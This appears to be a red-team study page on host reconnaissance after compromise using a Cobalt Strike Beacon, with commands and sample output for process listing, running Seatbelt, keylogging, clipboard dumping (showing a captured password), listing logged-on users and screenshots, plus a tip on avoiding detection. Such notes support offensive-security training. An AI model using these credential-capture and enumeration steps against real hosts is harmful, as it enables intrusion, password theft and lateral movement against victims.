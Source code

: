 # Host Reconnaissance

### Processes

Enumerating processes can shed light to any security solutions or programs that are running on the infected host. This may open the door to possible misconfigurations in software we can exploit.

#### `ps` command

```
beacon> ps

[*] This Beacon PID:    YELLOW 9831  
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 0     0     [System Process]                                         
 4     0         System                                               
 88    4             Registry                                         
 364   4             smss.exe                                         
 1532  4             Memory Compression 
```

### Seatbelt

Seatbelt is a tool written in C# that enumerates the host for us. It checks for security solutions, OS info, AppLocker, LAPS, event logging, firewall rules, and more.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system
```

The `execute-assembly` command will run a local .NET executable as a Beacon post-exploitation job. You may pass arguments to this assembly as if it were run from a Windows command-line interface. This command will also inherit your current token.

### Keylogger

Keyloggers are especially useful for capturing passwords, usernames, and other sensitive information.

```
beacon> keylogger
[+] received keystrokes from *Untitled - Notepad by alice
```

#### Kill Keylogger Job

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 2    0     keystroke logger

beacon> jobkill 2
```

### Clipboard

Like Keyloggers, capturing the victims clipboard can reward us with credentials that are copy / pasted. A CS Beacon's clipboard command does not start a job like keylogger, it just dumps the current clipboard.

```
beacon> clipboard
[*] Tasked beacon to get clipboard contents

Clipboard Data (8 bytes):
P@ssw0rd!
```

### User Sessions

Enumerating currently logged in users on the machine may present us with a good attack path. If there is a user with higher privilege than our current user, we can compromise them and attempt to move laterally.&#x20;

```
beacon> net logons

Logged on users at \\localhost:

DEV\alice
DEV\bob
DEV\PWNBOX$
```

### Screenshots

Taking screenshots of the users desktop can be useful to see what the user is doing. Be careful with this as it may tip off security solutions as it is considerably louder than other enumeration techniques.


